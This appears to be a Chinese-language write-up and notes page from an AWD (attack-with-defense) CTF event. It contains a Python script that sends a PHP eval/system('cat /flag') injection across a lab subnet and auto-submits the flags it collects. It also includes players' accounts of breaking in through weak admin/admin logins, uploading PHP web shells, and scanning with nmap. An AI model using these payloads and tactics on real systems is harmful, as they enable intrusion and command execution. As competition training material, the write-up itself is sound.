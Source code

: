 ```python
            url = "http://172.16.5." + str(i + 9) + ":8083/search.php?searchtype=5&tid=&area=eval($_POST[a])"
            poster = {"a":"system('cat /flag');"}
            flag = requests.post(url, poster).content[:36]
            print flag
            commiter = "http://172.16.4.1/Common/submitAnswer"
            answer = {"answer": flag, "token": "7c92f14732751912c18f04d26e83178b"}
            s = requests.post(commiter, answer).content
            s = s[4:s.find(",\"msg")]
            print s
        except Exception:
            print 'Fail to connect.'
```

```python
codemonster
下午AWD场
前半个小时一脸懵逼，不知道怎么访问别人的防御机，通过研究规则和拓扑图找到了别人的机子，然后先找web2漏洞，进了后台，拿不下shell，发现自己的web1被打，然后去看web1，随便找了一个队的防御机，弱口令admin admin 进后台，任意文件上传php木马拿下shell，菜刀连接，翻找目录找到1.txt，里面的字符串就是flag，提交了flag，发现打的竟然是自己学校的队伍，回学校差点被打死，然后换了个ip又拿下一个shell，僵硬的是打的竟然还是自己学校！后来打算一个个拿shell打过去，发现怎么改后台密码，怎么删shell我们的防御机web1都会被打，然后灵光一闪，发现直接访问ip+端口+/data/sqlbackup/1.txt 就能得到flag，时间太赶憋不出脚本，两个队友手动刷，提交flag服务器真的很卡，到这里差不多第10轮了，后面就是疯狂刷flag，只听见对面的队伍说了一句，他们变了，他们不是原来的对面了，后面十几轮一直尝试提权web2的防御机，没有成功，止步第七，拿下二等奖
比赛感想
第一次参加这一类的比赛，上午的CTF逆向是个大坑，全场就福大一队做了一题，下午的AWD吃了没有经验的亏，反应过来的时候别人已经刷了好几轮了，还有python脚本要好好学，最后二等奖拿了2000块钱，三个队员一人666.66，明年争取拿到更好成绩！
```

```
monster
完全吃了经验的亏，第二轮开始才找到攻击的平台，然后通过 Web1 管理后
台进去，发现 admin admin 弱密码。然后开始上传 shell ，get flag。中间一段时
间马被删了，然而提供的账号不能对文件进行操作，所以我发现是其他选手删除
我的木马。后来开始目录遍历，查找是否有其他方式 get flag，最后在
/data/sqlbackup/1.txt 发现 flag 文件，因此开始刷分，但是此时已经 20 轮了，来
不及刷分了。
```



伪静态规则 ssh登陆设置

流程：

1. 确认目标，配置脚本

   1. 主办方给定

   2. 自己获取 

      1. `nmap –sn 192.168.71.0/24 -oN targetHosts.txt  -sn: Ping Scan - disable port scan`
      2. 本机临时禁ping
         1.   `echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all`
         2.   `iptables -A INPUT -p icmp --icmp-type 8 -s 0/0 -j DROP`

   3. 分工

      1. 线下赛一般3人左右，2人攻击，1人防御，因为发现的漏洞可以攻击其他队伍，也要进行修复，所以攻防相辅相成，以攻为守。比赛中每个队伍可能会维护多个靶机，web、二进制等，也可以每人负责一台，各自负责攻击和防御。

